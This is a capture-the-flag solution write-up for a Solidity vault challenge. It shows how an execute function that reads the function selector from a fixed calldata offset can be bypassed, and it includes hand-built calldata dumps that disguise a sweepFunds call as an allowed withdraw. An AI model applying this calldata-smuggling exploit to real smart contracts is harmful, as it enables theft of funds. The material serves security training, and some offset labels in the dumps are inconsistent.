 # Solution

In this CTF `SelfAuthorizedVault` exposes 3 key functions `withdraw`, `sweepFunds` and `execute`.

The player is allowed to call `withdraw` but not `sweepFunds`.

Permission verification is enforced in `execute`, and this enforcement is buggy.

```JS
    function execute(address target, bytes calldata actionData) external nonReentrant returns (bytes memory) {
        // Read the 4-bytes selector at the beginning of `actionData`
        bytes4 selector;
        uint256 calldataOffset = 4 + 32 * 3; // calldata position where `actionData` begins
        assembly {
            selector := calldataload(calldataOffset)
        }

        if (!permissions[getActionId(selector, msg.sender, target)]) {
            revert NotAllowed();
        }

        _beforeFunctionCall(target, actionData);

        return target.functionCall(actionData);
    }
```

`execute` checks the function selector value of `actionData` with a
hardcoded byte position set in `calldataOffset`.

This can be exploited by crafting an `actionData` such that to expose one selector
at the `calldataOffset` position, but actually invoking another function.

To craft the correct data for the exploit we create two dumps for `execute` and merge them.

```
    <------------------ 32 bytes/256-bits ------------------------->
    1234567890123456789012345678901234567890123456789012345678901234

 execute -> withdraw
 ===================

 00 1cff79cd
 04 000000000000000000000000e7f1725e7734ce288f8367e1bb143e90bb3f0512
 24 0000000000000000000000000000000000000000000000000000000000000040 <- actiondata start
 44 0000000000000000000000000000000000000000000000000000000000000064    relative to 04
 64 d9caed12                                                         <- withdraw()
 68 0000000000000000000000005fbdb2315678afecb367f032d93f642f64180aa3
 88 00000000000000000000000070997970c51812dc3a010c7d01b50e0d17dc79c8
 A8 0000000000000000000000000000000000000000000000000de0b6b3a7640000
 C8 00000000000000000000000000000000000000000000000000000000
 E4

 execute -> sweepFunds
 =====================

 00 1cff79cd
 00 000000000000000000000000e7f1725e7734ce288f8367e1bb143e90bb3f0512
 00 0000000000000000000000000000000000000000000000000000000000000040
 00 0000000000000000000000000000000000000000000000000000000000000044
 00 85fb709d                                                         <- sweepFunds()
 00 0000000000000000000000003c44cdddb6a900fa2b585dd299e03d12fa4293bc
 00 0000000000000000000000005fbdb2315678afecb367f032d93f642f64180aa3
 00 00000000000000000000000000000000000000000000000000000000


 execute -> sweepFunds (attack)
 ==============================

 00 1cff79cd
 04 000000000000000000000000e7f1725e7734ce288f8367e1bb143e90bb3f0512
 24 0000000000000000000000000000000000000000000000000000000000000080 <- Extra space!
 44 0000000000000000000000000000000000000000000000000000000000000000
 64 d9caed1200000000000000000000000000000000000000000000000000000000 <- withdraw()
 84 0000000000000000000000000000000000000000000000000000000000000044
 88 85fb709d                                                         <- sweepFunds()
 A8 0000000000000000000000003c44cdddb6a900fa2b585dd299e03d12fa4293bc
 C8 0000000000000000000000005fbdb2315678afecb367f032d93f642f64180aa3
 E8 00000000000000000000000000000000000000000000000000000000
```
